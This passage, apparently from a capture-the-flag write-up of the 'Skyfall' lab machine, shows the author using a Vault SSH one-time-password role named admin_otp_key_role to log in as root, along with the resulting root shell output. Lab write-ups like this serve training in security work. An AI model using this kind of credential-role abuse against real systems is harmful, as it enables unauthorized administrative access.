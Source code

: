 That role doesn't work, so I will use the other one (and it makes sense as root is an admin) and it works:

```bash
❯ vault ssh -role admin_otp_key_role -mode otp -strict-host-key-checking no root@skyfall.htb
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Aug 22 11:07:34 2024 from 10.10.14.97
root@skyfall:~# 
```

{% endraw %}